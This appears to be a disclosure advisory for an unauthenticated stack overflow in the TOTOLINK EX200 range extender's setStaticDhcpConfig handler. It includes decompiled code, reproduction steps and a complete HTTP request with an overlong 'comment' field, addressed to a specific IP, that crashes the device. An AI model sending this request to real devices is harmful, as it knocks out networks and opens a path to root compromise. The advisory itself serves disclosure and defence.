


# TOTOLINK EX200: Stack-Based Buffer Overflow (CWE-121) in `setStaticDhcpConfig` (`/cgi-bin/cstecgi.cgi` / `comment`)

## Summary

TOTOLINK EX200 web management interface (`setStaticDhcpConfig` / `/cgi-bin/cstecgi.cgi`) is vulnerable to a stack-based buffer overflow via an overly long `comment` parameter, allowing an unauthenticated attacker to crash the service or potentially achieve arbitrary code execution.

## Impact

- **Impact type:** Denial of Service (DoS) of the web management service; potential Remote Code Execution (RCE) via stack corruption
- **Authentication required:** not required
- **Privilege:** root, because the lan.so handler runs with elevated privileges on the device
- **User interaction:** not required

## Affected Products

- **Vendor:** TOTOLINK (Zioncom Electronics)
- **Product:** TOTOLINK EX200 300Mbps Wireless Range Extender
- **Vulnerability type:** Stack-Based Buffer Overflow (CWE-121)

### Tested vulnerable firmware

- V5.2.3c.7200

**Firmware download address:**  
https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/144/ids/36.html

> The vulnerability was verified on firmware version V5.2.3c.7200

## Attack Vector

- **Entry point:** `POST /cgi-bin/cstecgi.cgi`
- **Handler selector:** `setStaticDhcpConfig`
- **Injection parameter:** `comment`
- **Authentication:** not required
- **User interaction:** not required

## Technical Details

The `lan.so` handler in TOTOLINK EX200 exposes a function associated with `setStaticDhcpConfig` and reachable through `/cgi-bin/cstecgi.cgi`. The handler requires no authentication and can be triggered remotely without user interaction. During request processing, the handler reads the user-controlled `comment` parameter via `websGetVar(a2, "comment", "")` and copies it into the local stack buffer `v17` with `strcpy((char *)&v17[1] + 2, src)` without any length validation, so an overlong `comment` value overflows the destination buffer. The unsafe copy is reached when `addEffect` is `0` (note that `v15 = websGetVar(a2, "addEffect", "0")`, and the copy branch is entered when `v15` evaluates to a value that does not short-circuit the block, i.e. `addEffect=0`).

The vulnerable function flow, based on the decompiled firmware analysis, is:

```c
v15 = 0;
v6 = (const char *)websGetVar(a2, "addEffect", "0");
v7 = atoi(v6);
nptr = (const char *)websGetVar(a2, "enable", "0");
v22 = atoi(nptr);
i = (const char *)websGetVar(a2, "comment", "");
...
if ( v15 )
{
  apmib_set(292, &v22);
  ...
  return 0;
}
s_addr = 0;
memset(v17, 0, sizeof(v17));
v18 = 0;
if ( (*i) )
  strcpy((char *)&v17[1] + 2, i);   // unsafe copy into fixed-size stack buffer
```



The vulnerability flow - numbered steps:

1. **Unvalidated external input**  
   The handler obtains the `comment` value directly from the incoming HTTP request via `websGetVar(a2, "comment", "")`. The endpoint performs no authentication, so any network-reachable attacker can supply it.

2. **Unsafe stack copy**  
   The externally controlled `comment` string reaches the local stack buffer `v17`. Because the copy is performed with `strcpy` and no length check, an overlong value overwrites the stack frame.

3. **Execution with system-level privileges**  
   The vulnerable operation occurs inside the `lan.so` handler, which runs with elevated privileges. In testing, the immediate result was an HTTP 500 Internal Server Error and a crash / denial of service, and a sufficiently controlled overwrite could have broader security impact.

Overall, this matches **CWE-121: Stack-Based Buffer Overflow**.

## Proof of Concept (PoC)

### Steps to reproduce

1. Connect to the TOTOLINK EX200 web management interface.
2. Send a crafted POST request to `/cgi-bin/cstecgi.cgi` carrying `topicurl=setting/setStaticDhcpConfig`, with `addEffect=0`, `enable=1`, and an excessively long `comment` value to overflow the stack buffer `v17`.
3. Observe that the service crashes and the device becomes unreachable, confirming the denial of service.

### Example request

The following request sends an overlong `comment` value with `addEffect=0` to trigger the stack overflow in `setStaticDhcpConfig`.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 71.226.252.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:149.0) Gecko/20100101 Firefox/149.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1249
Origin: http://71.226.252.133
Connection: keep-alive
Referer: http://71.226.252.133/login.asp

{"topicurl":"setting/setStaticDhcpConfig",
"addEffect":"0",
"enable":"1",
"comment":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```

### Verification

After the request is sent, the server responds with `HTTP/1.1 500 Internal Server Error` and the service crashes, making the device unreachable for a short period and confirming a denial of service.

**Vulnerable code / analysis evidence:**


**Observed result:**

